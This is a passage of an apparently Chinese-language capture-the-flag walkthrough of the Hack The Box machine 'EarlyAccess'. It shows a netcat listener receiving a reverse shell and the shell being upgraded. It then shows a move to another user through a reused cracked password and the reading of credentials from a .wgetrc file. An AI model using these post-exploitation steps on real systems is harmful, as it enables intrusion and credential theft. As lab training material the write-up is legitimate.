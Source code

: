 # 用户外壳

切换到等待中的 netcat 监听器，查看我们是否已连接:

```
┌──(root💀kali)-[~/htb/earlyaccess]
└─# nc -nlvp 1337
listening on [any] 1337 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.110] 46424
```

将 shell 升级到更有用的版本:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ ^Z
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~/htb/earlyaccess]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ export TERM=xterm
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ stty rows 60 cols 236
```

我们通过 www-data 连接，但是在主文件夹中我们看到了另一个用户。幸运的是，他们重新使用了我们之前破解的管理员密码:

```
www-data@webserver:/var/www/earlyaccess.htb/dev/actions$ ls -lsa /home
4 drwxr-xr-x 2 www-adm www-adm 4096 Feb  3 15:50 www-admwww-data@webserver:/var/www/earlyaccess.htb/dev/actions$ su www-adm
Password: 
www-adm@webserver:/var/www/earlyaccess.htb/dev/actions$
```

在我们的主文件夹中没有用户标志，但是。wgetrc 文件很有趣:

```
www-adm@webserver:/var/www/earlyaccess.htb/dev/actions$ cd /home/www-adm/
www-adm@webserver:~$ ls -lsa
0 lrwxrwxrwx 1 root    root       9 Feb  3 15:50 .bash_history
4 -rw-r--r-- 1 www-adm www-adm  220 Apr 18  2019 .bash_logout
4 -rw-r--r-- 1 www-adm www-adm 3526 Apr 18  2019 .bashrc
4 -rw-r--r-- 1 www-adm www-adm  807 Apr 18  2019 .profile
4 -r-------- 1 www-adm www-adm   33 Feb  3 15:50 .wgetrcwww-adm@webserver:~$ cat .wgetrc 
user=api
password=<HIDDEN>
```

环顾四周，我最终找到了那个 api 用户，并找到了这个:

```
www-adm@webserver:/var/www/html/app$ grep -ir api
Models/API.php:class API extends Model
Models/API.php:     * Verifies a game-key using the API
Models/API.php:     * @return string //Returns response from API
Models/API.php:     $response = Http::get('http://api:5000/verify/' . $key);
```
